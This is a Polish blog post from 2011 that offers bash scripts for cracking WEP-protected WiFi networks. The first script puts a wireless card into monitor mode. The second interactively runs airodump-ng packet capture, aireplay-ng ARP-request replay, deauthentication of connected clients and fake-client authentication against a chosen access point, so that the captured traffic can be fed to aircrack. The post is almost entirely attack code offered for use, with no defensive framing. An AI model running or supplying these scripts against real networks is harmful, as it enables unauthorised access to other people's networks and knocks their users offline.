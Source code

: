 ```yaml
---
title: Skrypt łamiący WEP
author: Przemek
type: post
date: 2011-12-01T23:35:00+00:00
url: /skrypt-lamiacy-wep/
bfa_virtual_template:
  - hierarchy
hits:
  - 324
dsq_thread_id:
  - 1017710848
categories:
  - Linux
tags:
  - wifi

---
```

Skrypt pomagający złamać zabezpieczenie sieci wifi &#8211; WEP

<!--more-->

1. Przełączanie karty WiFi do trybu monitor mode:

<pre class="lang:default highlight:0 decode:true">#! /bin/bash -x
x=wlan0
wlanconfig $x destroy
wlanconfig $x create wlandev wifi0 wlanmode managed
#ifconfig $x hw ether ca:fe:ca:fe:ca:fe
ifconfig $x up
#! /bin/bash -x
wlanconfig athX destroy
wlanconfig athX create wlandev wifi0 wlanmode monitor</pre>

&nbsp;

2. Łamanie WEP

<pre class="lang:default highlight:0 decode:true">#! /bin/bash

clear
echo " wpisz interfaejs sieciowy np; ath0"
read athx
echo " wprowadzam karte $athx w stan monitor"
if
wlanconfig $athx destroy
wlanconfig $athx create wlandev wifi0 wlanmode monitor &gt; /dev/null
ifconfig $athx up
then
echo " karta $athx monitor mode enable"
else
echo " jakis "error" sprawdz ustawienia karty"
echo " byc moze nie obsluguje monitor mode"
fi
clear
echo " wpisz odpowiedni bitrate dla karty np; 1, 11 , 54"
read bit &gt; /dev/null
M=M
iwconfig $athx biterate $bit$M
clear
echo " uruchamiam airodump-ng -c 0 --ivs -w pakiety $athx"
echo " wylukaj co i jak jak skonczysz wcisnij "ctrl-c""
echo " aby kontynulowac ;enter"
read enter &gt; /dev/null
airodump-ng --ivs -w pakiety $athx

echo " 1. Przeprowadz atak na ap z clientosami"
echo " 2. Przeprowadz atak na ap bez clientosow"
read y &gt; /dev/null
clear
case $y in 1)
echo " uruchamiam airodumpa wpisz odpowiednoi kanal"
read kanal &gt; /dev/hull
clear
aterm -geometry 65x15 -e airodump-ng -c $kanal --ivs -w pakiety $athx &

echo " uruchamiam ARP-request reinjection"
echo " uruchamiam deauthentication"
echo " wpisz mac apka"
read macap &gt; /dev/null
clear
echo " wpisz mac clienta"
read client &gt; /dev/null
clear
aterm -geometry 72x15 -e aireplay-ng -3 -b $macap -h $client $athx &
aterm -geometry 72x15 -e aireplay-ng -0 100 -a $macap -c $client $athx &
clear
echo " ...,,..,,...,,..,,..,,..,,..,,..,"
echo " ,zbieraj pakietsy & run aircarck."
echo " .,..,,..,,..,,..,,..,,..,,..,,.,,"
echo " mormo one person squad ;P"
read enter
esac
case $y in 2 )
echo " uruchamiam airodumpa wpisz odpowiednoi kanal"
read kanal2 &gt; /dev/hull
clear
aterm -geometry 65x15 -e airodump-ng -c $kanal2 --ivs -w pakiety $athx &

echo " uruchamiam ARP-request reinjection"
echo " uruchamiam fake-clientos"
echo " wpisz mac apka"
read macap2 &gt; /dev/null
echo " wpisz mac fake clienta"
read fake
echo "wpisz essid apka"
read essid

aterm -geometry 72x15 -e aireplay-ng -3 -b $macap2 -h $fake $athx &
aterm -geometry 72x15 -e aireplay-ng -1 0 -e $essid -a $macap2 -h $fake $athx &

clear
echo " ...,,..,,...,,..,,..,,..,,..,,..,"
echo " ,zbieraj pakietsy & run aircarck."
echo " .,..,,..,,..,,..,,..,,..,,..,,.,,"
echo " mormo one person squad ;P"

esac</pre>

&nbsp;